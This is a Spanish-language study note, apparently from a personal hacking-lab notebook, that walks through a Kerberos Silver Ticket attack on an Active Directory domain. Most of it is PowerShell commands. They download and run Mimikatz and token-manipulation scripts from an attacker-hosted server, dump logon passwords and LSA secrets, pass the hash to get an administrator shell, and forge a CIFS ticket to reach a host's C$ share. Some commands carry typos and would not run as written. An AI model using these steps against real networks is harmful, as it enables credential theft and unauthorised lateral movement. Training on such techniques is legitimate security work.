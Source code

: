 
Técnica de creación de un TGS para un servicio específico cuando el hash del password del servicio se obtiene. Permite acceder sin autorización al servicio mediante un TGS.

Tiene un scope más estrecho que los Golden tickets ya que solo afectan al acceso de un servicio.

Ejemplo práctico:

```powershell
cd C:\tools
powershell -ep bypass
. .\PowerView.ps1
Get-Domain
```

![[Pasted image 20250403090854.png]]

![[Pasted image 20250403090914.png]]

Vamos a ver los dominios que tenemos permisos de administrador:

![[Pasted image 20250403090952.png]]

Nos introducimos en el dominio con ``Enter-PSession seclogs.research.SECURITY.local``

Iniciamos el HFS con en [[Hacking/Hacking/Pivoting y lateral movement/Lateral Movement/windows/Pass-the-Hash|Pass-the-Hash]] y añadimos los módulos de:
- Invoke-Mimikatz.ps1
- Invoke-TokenManipulation.ps1

```powershell
cd /

iex (New-Object Net.WebClient).DownloadString('http://ip/Invoke-TokenManipulation.ps1')
Invoke-TokenManipulation -Enumerate

iex (New-Object Net.WebClient).DownloadString('http://ip/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"priviledge::debug" "token::elevate" "sekurlsa::logonpassword"'
```


![[Pasted image 20250403091640.png]]

```powershell

#Abrimos un nuevo powershell

cd C:\tools
powershell -ep bypass
. .\PowerView.ps1


. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.lcoal /ntlm:hash /run:powershell.exe"'

#Sustituyendo el balor del hash por el valor obtenido anteriormente, el comando nos abrirá una nueva terminal con permisos de administrador. Comandos a partir de la nueva consola:

cd C:\tools
powershell -ep bypass

. .\Invoke-mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -Computername pord.research.SECURITY.local
```

Nos interesa el hash de PROD
 ![[Pasted image 20250403093441.png]]

Abrimos otra window de powershell.

```powershell

ls \\prod.research.SECURITY.local\c$

#Con esto vemos que no tenemos permisos

cd C:\\
cd tools
powerhsell -ep bypass
. .\Invoke-Mimikatz.ps1

Invoke.Mimikatz -Command '"kerberos::golden /domain:research:SECURITY.local /sid:sid /target:prod.research.SECURITY.local /service:CIFS /rc4:hash /user:administrator /ptt"'

#Pese a que se hace referencia a un golden ticker, no lo es. El SID lo hemos sacado al principio, ek rc4 es el hash de prod
```

![[Pasted image 20250403094312.png]]

Ahora si ejecutamos el ``ls \\prod.research.SECURITY.local\c$

![[Pasted image 20250403094355.png]]

Vemos que tenemos permisos para listar.